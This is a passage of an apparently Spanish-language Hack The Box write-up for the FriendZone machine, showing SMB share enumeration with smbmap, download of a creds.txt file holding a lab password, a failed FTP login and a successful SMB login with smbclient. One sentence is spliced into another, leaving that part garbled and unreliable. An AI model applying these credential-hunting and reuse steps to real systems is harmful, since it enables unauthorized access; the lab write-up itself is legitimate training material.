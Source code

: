 Si listamos que hay dentro de **general** hay un archivo que se llama **creds.txt** 

```bash
❯ smbmap -H 10.10.10.123 -r general
[+] Guest session   	IP: 10.10.10.123:445	Name: 10.10.10.123                                      
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	general                                           	READ ONLY	
	.\general\*
	dr--r--r--                0 Wed Jan 16 14:10:51 2019	.
	dr--r--r--                0 Tue Sep 13 09:56:24 2022	..
	fr--r--r--               57 Tue Oct  9 18:52:42 2018	creds.txt
```

Vamos a dVemos un panel de login en el subdominio que empieza con **administrator** escargarlo

```bash
❯ smbmap -H 10.10.10.123 --download general/creds.txt
[+] Starting download: general\creds.txt (57 bytes)
[+] File output to: /home/miguel7/Hackthebox/FriendZone/nmap/10.10.10.123-general_creds.txt
```

Este es el contenido son credenciales 

```bash
❯ catn 10.10.10.123-general_creds.txt
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

Vamos a probarlas primero por el protocolo **FTP** pero son incorrectas

```bash
❯ ftp 10.10.10.123
Connected to 10.10.10.123.
220 (vsFTPd 3.0.3)
Name (10.10.10.123:miguel7): admin
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> 
```
Vemos un panel de login en el subdominio que empieza con **administrator** 
Ahora si probamos con **SMB** a un recurso vemos que nos deja

```bash
❯ smbclient //10.10.10.123/general -U admin%WORKWORKHhallelujah@#
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jan 16 14:10:51 2019
  ..                                  D        0  Tue Sep 13 09:56:24 2022
  creds.txt                           N       57  Tue Oct  9 18:52:42 2018

		3545824 blocks of size 1024. 1651008 blocks available
smb: \> 

```
